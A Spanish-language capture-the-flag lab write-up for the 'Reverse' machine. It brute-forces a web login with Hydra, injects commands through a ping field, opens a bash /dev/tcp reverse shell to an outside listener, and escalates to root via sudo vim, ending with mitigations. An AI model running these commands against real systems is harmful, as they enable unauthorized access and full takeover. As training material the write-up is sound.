## Información General

| Campo                | Detalle                                             |
| -------------------- | --------------------------------------------------- |
| Nombre de la máquina | Reverse                                             |
| Plataforma           | whoami-labs                                         |
| IP                   | 172.17.0.2                                          |
| Dificultad           | Fácil / Media                                       |
| Sistema Operativo    | Linux                                               |
| Servicios expuestos  | 8080/tcp (HTTP - Werkzeug 3.1.6 / Python 3.9.2)     |
| Vulnerabilidades     | Fuerza bruta de credenciales web, Command Injection |
| Vector de escalada   | Sudo NOPASSWD sobre `/usr/bin/vim` (GTFOBins)       |

---

## Resumen del Ataque

La máquina expone una única aplicación web (TechFix Solutions), servida con Werkzeug/Flask, sobre el puerto 8080. La aplicación cuenta con un portal de acceso para empleados que resultó vulnerable a fuerza bruta de credenciales (sin bloqueo de intentos ni rate-limiting), lo que permitió obtener el par `admin:admin123` mediante Hydra.

Una vez autenticado, el panel interno ofrecía una funcionalidad de diagnóstico de red (tipo "ping a una IP"), la cual no sanitizaba la entrada del usuario, permitiendo inyección de comandos del sistema operativo (Command Injection) al encadenar comandos con `;`. Esto se aprovechó para obtener una reverse shell como `www-data`.

Ya con acceso al sistema, la enumeración de privilegios (`sudo -l`) reveló que el usuario `www-data` podía ejecutar `/usr/bin/vim` como root sin contraseña. Al ser un binario listado en GTFOBins con capacidad de escape a shell, se utilizó para escalar privilegios directamente a root y capturar la flag.

---

## Técnicas Usadas

- Reconocimiento de puertos y servicios con **Nmap** (`-p-`, `-sC -sV`).
- Enumeración de directorios web con **dirsearch**.
- Revisión manual de código fuente HTML en busca de rutas y pistas.
- Intento de **SQL Injection** en formulario de login (descartado, no funcional).
- **Fuerza bruta de credenciales web** (HTTP POST form) con **Hydra**.
- **Command Injection (CMDi)** en funcionalidad de ping/diagnóstico de red.
- Obtención de **reverse shell** vía `bash -i >&/dev/tcp/...`.
- Enumeración de usuarios del sistema (`/etc/passwd`) y privilegios (`sudo -l`).
- **Escalada de privilegios (privesc)** mediante GTFOBins (`vim` con NOPASSWD).

---

## Desarrollo

### 1. Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Solo el puerto 8080 se encuentra abierto.

### 2. Identificación del servicio

```
nmap -p 8080 -sC -sV -oN allports 172.17.0.2 
```



Se confirma una aplicación Flask/Werkzeug corriendo detrás del puerto 8080, correspondiente al portal interno de "TechFix Solutions".

### 3. Revisión de la web principal


Al acceder a `http://172.17.0.2:8080/` se observa la landing page corporativa, con estadísticas ficticias y un enlace a `Acceso Empleados →` que redirige a `/login`. Revisando el código fuente no se encontraron comentarios ni rutas ocultas relevantes, más allá de confirmar la estructura estática de la plantilla.

### 4. Análisis del formulario de login



En `http://172.17.0.2:8080/login` se probaron credenciales por defecto y un intento básico de SQL Injection:

```
admin / admin         → Nada
admin' OR '1 / admin  → Nada
```

Ambos intentos resultan en el mensaje `Usuario o contraseña incorrectos.`, descartando SQLi como vector viable en este formulario (no hay indicios de que la consulta esté mal parametrizada, o el error se maneja de forma genérica).

### 5. Enumeración de directorios

```
dirsearch -u http://172.17.0.2:8080/ --exclude-status 403,404,500 -e php,txt,html
```



Se confirma la existencia de `/dashboard`, protegido tras el login (redirige a `/login` si no hay sesión activa), lo que indica que el panel interno es el objetivo tras autenticarse.

### 6. Fuerza bruta sobre el login

Dado que no hay bloqueo de intentos visible y el mensaje de error es estático y predecible, se lanza un ataque de fuerza bruta con Hydra contra el formulario POST:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 172.17.0.2 http-post-form "/login:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos." -t 64 -f
```



Credenciales válidas obtenidas:

```
admin
admin123
```

### 7. Acceso al panel y descubrimiento de Command Injection



Tras autenticarse con `admin:admin123`, el panel `/dashboard` incluye una utilidad de diagnóstico de red que permite introducir una IP para hacer ping. Se prueba primero con una IP legítima:

```
172.17.0.1
```



El campo de entrada probablemente construye un comando de shell del tipo `ping -c 2 <input>` sin sanitizar el valor recibido. Se prueba inyectar un comando adicional separado por `;`:

```
172.17.0.1; id
```



Se confirma **Command Injection**: la salida de `id` se ejecuta junto al ping, corriendo como `www-data`.

### 8. Obtención de reverse shell

Se pone en escucha un listener:

```
nc -lvnp 1234
```

Y se inyecta el payload de reverse shell a través del mismo campo vulnerable:

```
bash -c 'exec bash -i &>/dev/tcp/192.168.241.128/1234 <&1'
```





### 9. Tratamiento de la TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

Shell obtenida como `www-data`:

```
www-data@reverse:/opt/app$ whoami
```



### 10. Enumeración de usuarios y privilegios

```
www-data@reverse:/opt/app$ grep bash /etc/passwd
```



Se revisan los privilegios sudo del usuario actual:

```
www-data@reverse:/opt/app$ sudo -l
```



`www-data` puede ejecutar `/usr/bin/vim` como root sin contraseña. Este binario es un vector de escalada conocido (GTFOBins) mediante su capacidad de ejecutar comandos de shell (`:!`).

### 11. Escalada de privilegios

```
www-data@reverse:/opt/app$ sudo /usr/bin/vim -c ':!/bin/bash'
```

```
root@reverse:/opt/app# whoami
```



Shell root obtenida.

### 12. Captura de la flag

```
cd /root
cat flag.txt
```



---

## Lecciones Aprendidas

- Un formulario de login sin protección contra fuerza bruta (rate-limiting, bloqueo de cuenta, CAPTCHA) es trivialmente vulnerable con herramientas como Hydra, incluso con contraseñas de complejidad media si están en diccionarios comunes (rockyou.txt).
- Funcionalidades que envuelven comandos del sistema (ping, traceroute, nslookup, etc.) son un vector clásico de Command Injection cuando construyen el comando concatenando strings en lugar de usar APIs seguras (p. ej. módulos nativos de red en vez de `subprocess` con `shell=True`).
- Un solo binario mal configurado en sudoers (`NOPASSWD`) puede anular por completo la separación de privilegios, incluso en sistemas por lo demás bien configurados. Vim, al igual que find, less, more, awk, entre otros, tiene capacidad de escape a shell documentada en GTFOBins.
- La cadena completa (login débil → RCE por CMDi → privesc por sudo mal configurado) ilustra cómo fallos aparentemente menores y aislados se combinan para lograr compromiso total del sistema.

---

## Medidas de Mitigación

- Implementar límites de intentos de login (rate-limiting) y bloqueo temporal de cuentas tras varios intentos fallidos; considerar 2FA para accesos administrativos.
- Forzar políticas de contraseñas robustas y evitar contraseñas presentes en diccionarios públicos.
- Nunca construir comandos de shell concatenando entrada de usuario. Usar librerías nativas (p. ej. `ping3` en Python, o llamadas a sockets ICMP) en lugar de invocar binarios del sistema con `os.system()` o `subprocess.run(..., shell=True)`.
- Si es imprescindible invocar un binario externo, validar estrictamente la entrada (whitelisting de formato IP mediante regex/`ipaddress` module) y usar `subprocess.run([...], shell=False)` con argumentos como lista, nunca como string.
- Revisar y minimizar las entradas en `sudoers`. Evitar `NOPASSWD` en binarios con capacidad de escape a shell (ver lista de GTFOBins) salvo necesidad estrictamente justificada, y en ese caso restringir mediante wrappers o políticas de AppArmor/SELinux.
- Auditar periódicamente los privilegios sudo asignados a usuarios de servicio como `www-data`, que en condiciones normales no deberían tener ningún privilegio elevado.


